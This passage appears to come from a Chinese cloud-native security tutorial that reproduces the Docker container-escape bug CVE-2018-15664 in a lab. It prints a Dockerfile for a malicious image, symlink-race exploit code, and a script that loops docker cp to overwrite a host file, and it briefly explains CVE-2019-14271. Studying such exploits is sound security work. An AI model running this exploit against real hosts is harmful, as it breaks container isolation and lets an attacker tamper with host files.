 |     |     |     |
| --- | --- | --- |
| ```bash<br>1<br>``` | ```bash<br>./metarget cnv install cve-2018-15664<br>``` |

下载并解压 [PoC](https://github.com/brant-ruan/cloud-native-security-book/tree/main/code/0302-%e5%bc%80%e5%8f%91%e4%be%a7%e6%94%bb%e5%87%bb/02-CVE-2018-15664/symlink_race)

![https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/202111101858440.png-water_print](assets/1699410413-f4aa47099c1f555a04b5cba2dac0eeb5 "https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/202111101858440.png-water_print")

其中，build 目录包含了用来编译 EXP 的 Dockerfile 和漏洞利用源代码 symlink\_swap.c

注意

构建镜像时，在容器内安装 gcc 时报错，可以先在宿主机将 symlink\_swap 编译好，再 COPY 到容器中。

修改后的 Dockerfile：

|     |     |     |
| --- | --- | --- |
| ```bash<br> 1<br> 2<br> 3<br> 4<br> 5<br> 6<br> 7<br> 8<br> 9<br>10<br>11<br>12<br>13<br>14<br>15<br>``` | ```dockerfile<br># Build the binary.<br>FROM opensuse/tumbleweed<br># RUN zypper in -y gcc glibc-devel-static<br>RUN mkdir /builddir<br>COPY symlink_swap.c /builddir/symlink_swap.c<br># RUN gcc -Wall -Werror -static -lpthread -o /builddir/symlink_swap /builddir/symlink_swap.c<br>COPY symlink_swap /builddir/symlink_swap<br><br># Set up our malicious rootfs.<br>FROM opensuse/tumbleweed<br>ARG SYMSWAP_TARGET=/w00t_w00t_im_a_flag<br>ARG SYMSWAP_PATH=/totally_safe_path<br>RUN echo "FAILED -- INSIDE CONTAINER PATH" >"$SYMSWAP_TARGET"<br>COPY --from=0 /builddir/symlink_swap /symlink_swap<br>ENTRYPOINT ["/symlink_swap"]<br>``` |

Dockerfile 的主要内容是构建漏洞利用程序，并将其放在容器的根目录下，并在根目录下创建一个 `w00t_w00t_im_a_flag` 文件，内容为：`FAILED -- INSIDE CONTAINER PATH`。容器启动后执行的程序 (`Entrypoint`) 即为：symlink\_swap。

Symlink\_swap.c 内容：

|     |     |     |
| --- | --- | --- |
| ```bash<br> 1<br> 2<br> 3<br> 4<br> 5<br> 6<br> 7<br> 8<br> 9<br>10<br>11<br>12<br>13<br>14<br>15<br>16<br>17<br>18<br>19<br>20<br>``` | ```c<br>/*<br>     * Now create a symlink to "/" (which will resolve to the host's root if we<br>     * win the race) and a dummy directory at stash_path for us to swap with.<br>     * We use a directory to remove the possibility of ENOTDIR which reduces<br>     * the chance of us winning.<br>     */<br>    if (symlink("/", symlink_path) < 0)<br>        bail("create symlink_path");<br>    if (mkdir(stash_path, 0755) < 0)<br>        bail("mkdir stash_path");<br><br>    /* Now we do a RENAME_EXCHANGE forever. */<br>    for (;;) {<br>        int err = rrenameat2(AT_FDCWD, symlink_path,<br>                            AT_FDCWD, stash_path, RENAME_EXCHANGE);<br>        if (err < 0)<br>            perror("symlink_swap: rename exchange failed");<br>    }<br>    return 0;<br>}<br>``` |

在容器内创建指向根目录的符号链接，并不断地交换符号链接 (由命令行参数传入，如「totaly\_safe\_path」) 与一个正常的目录 (如：「totaly\_safe\_path-stashed」) 的名字。

run\_read.sh : 实现读取宿主机文件内容的 shell 脚本

run\_write.sh : 实现在宿主机写文件的 shell 脚本

以 `run_write.sh` 为例：

|     |     |     |
| --- | --- | --- |
| ```bash<br> 1<br> 2<br> 3<br> 4<br> 5<br> 6<br> 7<br> 8<br> 9<br>10<br>11<br>12<br>13<br>14<br>15<br>16<br>17<br>18<br>19<br>20<br>``` | ```sh<br>SYMSWAP_PATH=/totally_safe_path<br>SYMSWAP_TARGET=/w00t_w00t_im_a_flag<br><br># Create our flag.<br>echo "FAILED -- HOST FILE UNCHANGED" \| sudo tee "$SYMSWAP_TARGET"<br>sudo chmod 0444 "$SYMSWAP_TARGET"<br><br># Run and build the malicious image.<br>docker build -t cyphar/symlink_swap \<br>	--build-arg "SYMSWAP_PATH=$SYMSWAP_PATH" \<br>	--build-arg "SYMSWAP_TARGET=$SYMSWAP_TARGET" build/<br>ctr_id=$(docker run --rm -d cyphar/symlink_swap "$SYMSWAP_PATH")<br><br>echo "SUCCESS -- HOST FILE CHANGED" \| tee localpath<br><br># Now continually try to copy the files.<br>while true<br>do<br>	docker cp localpath "${ctr_id}:$SYMSWAP_PATH/$SYMSWAP_TARGET"<br>done<br>``` |

run\_write.sh 启动后恶意容器运行，然后不断执行 docker cp 命令

![https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/202111101901056.png-water_print](assets/1699410413-f9b5e94fd16e801a9c386cdd18302074 "https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/202111101901056.png-water_print")

### [](#13-cve-2019-14271)1.3 CVE-2019-14271

影响 Docker 19.03.x before 19.03.1

#### [](#131-%E5%8E%9F%E7%90%86)1.3.1 原理

docker cp 命令依赖的 docker-tar 组件会加载容器内部的 nsswitch 动态链接库，攻击者可以通过劫持容器内部的 nsswitch 来实现代码的注入，获得宿主机上的 root 权限的代码执行能力。
